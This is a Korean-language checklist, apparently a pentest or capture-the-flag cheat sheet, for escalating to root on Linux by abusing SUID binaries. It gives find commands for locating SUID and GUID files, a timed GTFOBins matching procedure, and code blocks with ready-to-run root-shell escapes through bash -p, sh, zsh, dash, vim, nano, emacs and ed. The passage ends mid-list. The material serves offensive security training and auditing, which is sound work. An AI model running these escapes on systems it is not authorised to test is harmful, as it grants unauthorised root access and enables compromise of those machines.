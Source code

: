 - [ ] **SUID 파일 전체 찾기**: `find / -type f -perm -4000 2>/dev/null`
- [ ] **GUID 파일 찾기**: `find / -type f -perm -2000 2>/dev/null`
- [ ] **커스텀 바이너리 확인**: 표준 경로 외부 SUID 우선 체크
- [ ] **소유자 확인**: root 소유가 아닌 SUID 파일들 체크
- [ ] **쓰기 권한 확인**: SUID 파일에 쓰기 권한이 있는지 체크

### Phase 2: GTFOBins 대조 (3분)

- [ ] **쉘 바이너리**: bash, sh, zsh 등
- [ ] **에디터**: vim, nano, emacs 등
- [ ] **스크립팅**: python, perl, ruby 등
- [ ] **파일 조작**: find, cp, mv, tar 등
- [ ] **시스템 도구**: nmap, gdb, strace 등
- [ ] **페이저**: more, less, man 등

### Phase 3: 익스플로잇 시도 (5분)

- [ ] **발견된 바이너리별로 GTFOBins 방법 시도**
- [ ] **여러 방법이 있는 경우 모두 시도**
- [ ] **실패시 다음 바이너리로 이동**
- [ ] **성공시 즉시 root 쉘 안정화**

## 🎯 발견별 익스플로잇 방법

### 🐚 쉘 바이너리 (즉시 root!)

```bash
# bash가 SUID인 경우
/usr/bin/bash -p
# 또는
/bin/bash -p

# sh가 SUID인 경우
/bin/sh -p

# zsh가 SUID인 경우
/usr/bin/zsh

# dash가 SUID인 경우
/bin/dash -p
```

### 📝 에디터류

```bash
# vim이 SUID인 경우
/usr/bin/vim -c ':!/bin/sh'
# 또는 vim에서
:set shell=/bin/sh
:shell

# nano가 SUID인 경우
/usr/bin/nano
# nano에서 Ctrl+R, Ctrl+X 누르고
reset; sh 1>&0 2>&0

# emacs가 SUID인 경우
/usr/bin/emacs -Q -nw --eval '(term "/bin/sh")'

# ed가 SUID인 경우
/bin/ed
!/bin/sh

# view가 SUID인 경우
```